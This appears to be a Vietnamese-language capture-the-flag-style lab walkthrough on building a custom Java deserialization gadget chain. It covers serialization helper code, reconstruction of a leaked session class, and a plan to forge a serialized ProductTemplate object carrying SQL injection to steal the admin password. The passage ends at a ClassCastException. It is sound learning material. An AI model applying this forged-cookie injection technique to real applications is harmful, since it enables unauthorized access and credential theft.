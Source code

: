 ## Developing a custom gadget chain for Java deserialization

1. Dựa vào mô tả thì bài này phần input cho khai thác deserialize vẫn là session cookie. Và folder `/backend` tiết lộ 2 class trong proj.
<img width="787" height="233" alt="image" src="https://github.com/user-attachments/assets/abe14b7f-6159-4694-b64d-8fe69b08c805" />

2. Trước tiên thử deserialize data khi đăng nhập với wiener là gì đã.

```java
class Main {
    public static void main(String[] args) throws Exception {
        Object deserializedObject = deserialize("{Serialized data}");
        System.out.println("Deserialized data str: " + deserializedObject.toString());
    }

    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }


    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```
3. Nhận được lỗi `Exception in thread "main" java.lang.ClassNotFoundException: lab.actions.common.serializable.AccessTokenUser` cho biết class AccessTokenUser không tồn tại.
4. Lấy nội dung class AccessTokenUser bị lộ ở trên cho vào thư mục ``lab.actions.common.serializable``.
<img width="2295" height="1275" alt="image" src="https://github.com/user-attachments/assets/58c92594-6ad3-4329-874d-7f2789edd5a6" />

5. Để lấy được password của admin có thể nghĩ đến phương án SQLI trong ProductTemplate class khi mà id được truyền vào query mà không có sanitize.
6. Giờ ta cần tạo một object ProductTemplate với id khai báo trước.
> Lưu ý: cần đặt class trong package như class gốc ``package data.productcatalog``
7. Gen serialize data với id = 1 
<img width="2550" height="1279" alt="image" src="https://github.com/user-attachments/assets/3d330620-3e92-4b89-b25e-7353cbd86324" />

8. Nhưng gửi thì chỉ nhận được lỗi ``java.lang.ClassCastException: Cannot cast data.productcatalog.ProductTemplate to lab.actions.common.serializable.AccessTokenUser`` - tức là đã inject thành công nhưng nó đang cố ép về kiểu AccessTokenUser vì ở đây có expect kiểu AccessTokenUser.
<img width="2194" height="1015" alt="image" src="https://github.com/user-attachments/assets/bf524e1c-fb56-4f06-9afa-e10bb33862b9" />

